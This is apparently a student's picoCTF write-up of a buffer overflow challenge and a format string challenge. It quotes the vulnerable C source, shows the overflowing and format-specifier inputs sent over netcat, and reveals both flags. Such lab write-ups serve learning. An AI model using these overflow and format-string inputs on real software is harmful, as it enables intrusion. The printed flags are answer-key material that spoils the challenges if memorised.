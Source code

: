 # 1. buffer overflow 0

## Description
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
nc saturn.picoctf.net 53744

## Solution
On reading the source code and getting hints from the name of the challenge, I found that there was a user defined sigsegv_handler(int sig) function that would print the flag if a segmentation fault occured. 

```C
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
The vuln function gave me the clue that the way to cause this error would be by inputting value above the limit 16. On doing so, I was able to obtain the flag.

```bash
pri279-picoctf@webshell:~$ nc saturn.picoctf.net 53744
Input: qqqqqqqqqqqqqqqqqqqqqqqq
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Concepts Learnt:
I got an idea about signal handlers and how to cause buffer overflow to obtain desired output.

***

# 2. format string 0

## Description
> Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 62847

## Solution
On launching the instance, I was able to access a menu driven program that asked me to choose a burger for a customer. It was mentioned that the customer, Patrick, wanted a giant bite. This meant that the option having format specifier %114d which meant an integer of size 114 would be resulted. This was the correct pick. For the second customer, SpongeBob wanted to "break the shop". Hence I picked the Cla%sic_Che%s%steak and it turned out to be the right option. 

```bash
pri279-picoctf@webshell:~$ nc mimas.picoctf.net 57603
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
## Concepts Learnt:
I learnt about different types of format specifiers. 

***

# 3. clutter-overflow

***


